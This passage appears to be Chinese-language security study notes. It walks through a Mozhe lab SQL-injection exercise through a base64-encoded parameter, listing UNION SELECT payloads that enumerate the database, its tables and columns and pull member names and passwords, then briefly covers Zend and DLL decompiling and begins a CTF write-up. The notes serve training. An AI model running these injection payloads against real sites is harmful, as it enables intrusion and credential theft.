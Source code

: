 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300362-ca4beccd-b78d-4bff-b394-8b3ac61f944a.png)

```plain
发现两次base64解码，而解密平台只有一次解密，所以需要用工具进行一次解码后，在进行平台解密。经过解码，发现明文:
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300509-098bc551-9eae-4647-9c36-907a2e382e19.png)

```plain
Wp:https://blog.csdn.net/qq_38963246/article/details/99065936
构造查询数据库语句： -1 union select 1,database(),3,4_mozhe，经过编码转化得到：MXVsZkNDTGNMTE9yMTJiVHFyNytGVm0rZ2R4ZHllMHRTbTZBNW4rQ2cwZ3ZMK1NFWFoyMkZ3ZVNUTmF5czgxQw==
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300546-4233ddb8-b357-4f44-9767-f3932084d211.png)

```plain
得到数据库后，查询数据库的表：
1 and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.TABLES where TABLE_SCHEMA='mozhe_Discuz_StormGroup' limit 0,1_mozhe
经过加密，注入得到：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300649-3ff9f6f1-8642-4535-a5b4-e32e8321fef2.png)

```plain
获取字段：
1 and 1=2 union select 1,COLUMN_NAME,COLUMN_TYPE,4 from information_schema.COLUMNS where TABLE_SCHEMA='mozhe_Discuz_StormGroup' and TABLE_NAME='StormGroup_member' limit 1,1_mozhe
获取数值：
1 and 1=2 union select 1,CONCAT(name,'-',password,'-',status),3,4 from mozhe_Discuz_StormGroup.StormGroup_member limit 0,1_mozhe
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300659-9a9536b3-fe6a-4146-af34-35a7eacd042f.png)

### 四、代码-解密-解密反编译-Zend&Dll&Jar

```plain
Zend:通达OA的index.php是加密的代码，以Zend为开头的代码。解密平台：http://dezend.qiling.org/free.html,将代码上传至平台。这样就可以进行解密，解密要看是否复杂，能不能解密。

Dll:.net是基于Windows开发的一款脚本语言，那么后缀封装成为dll程序，利用到ILSpy工具进行解密，类似于反编译。
```

- CTF赛题-buuoj-single dog-JS颜文字

```plain
Wp:https://blog.csdn.net/qq_53030229/article/details/121254834
kali安装下foremost命令：sudo apt-get update   sudo apt-get install foremost  下载完成后，执行foremost命令：
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1720345300653-2cc9735e-0e09-4eca-99d6-635347e9772b.png)

```plain
解压发现两个文件：
```
